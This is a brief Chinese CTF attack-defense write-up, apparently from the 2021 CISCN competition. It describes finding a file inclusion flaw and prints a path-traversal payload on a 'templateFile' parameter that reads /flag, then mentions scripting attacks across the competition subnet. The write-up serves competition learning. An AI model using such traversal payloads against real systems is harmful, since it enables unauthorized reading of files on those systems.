 ![img](2021ciscnawd/upload_df544a9bb4d1a8a99073e4f878056ce0.png)



直接发现文件包含漏洞，如下

![image-20210620190953385](2021ciscnawd/image-20210620190953385.png)

调用show方法，直接可以文件包含`/flag`

![image-20210620191059855](2021ciscnawd/image-20210620191059855.png)

Payload:

```
./wap/Common/show?templateFile=../../../../../../../flag
```

开始写脚本全场打，之前预先写好的提交flag脚本针对的是D段的，改成C段浪费了点时间。

![image-20210620193200148](2021ciscnawd/image-20210620193200148.png)
